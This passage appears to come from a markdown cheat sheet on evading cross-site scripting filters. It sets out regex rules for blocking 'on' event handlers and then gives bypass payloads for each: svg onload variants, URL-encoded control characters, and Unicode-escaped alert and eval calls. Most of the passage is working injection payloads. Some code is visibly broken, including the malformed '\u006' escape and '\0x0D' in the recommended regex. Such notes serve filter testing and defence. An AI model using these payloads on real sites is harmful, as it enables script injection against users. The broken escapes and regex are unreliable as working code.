 - From a defensive point of view, the solution is to filter all the events that start with **on** in order to block this injection point.

This is a very common regex you might find used widely:
```js
(on\w+\s*=)

# We can bypass this filter:
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x; onload=alert(1)>
<svg id='x' onload=alert(1)>
```

So, we have an **Upgrade**:
```js
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
```

- However, Some browsers convert the control character to a space, thus the \s meta-character is not enough to cover all possible chars.

We can bypass that too:
```js
<svg onload%09=alert(1)> # Works in all browsers except Safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)>  # IE only
```

Browsers are in continuous evolution; Therefore, some of the chars allowed may not work anymore. So, Shazzer Fuzz DB has created two fuzzer tests:

→ http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name

→ http://shazzer.co.uk/vector/Characters-allowed-before-attribute-name

To data, a valid regex rule should be the following:
```js
(?i)([\s\"'`;\/0-9\=\x00\x09\x0A\x0C\0x0D\x3B\x2C\x28\x3B]+on\w+[\s\x00\x09\x0A\x0C\0x0D\x3B\x2C\x28\x3B]*?=)
```

## Keyword Based Filters
There are filters focused on preventing scripting mode such as **alert, javascript, eval**

### Char Escaping
Here we see Unicode Escaping without using native functions:
```js
<script>\u0061lert(1)</script>
<script>\u0061\u006\u0065\u0072\u0074(1)</script>
```

Unicode escaping using native functions. Eval is just one of many:
```js
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```
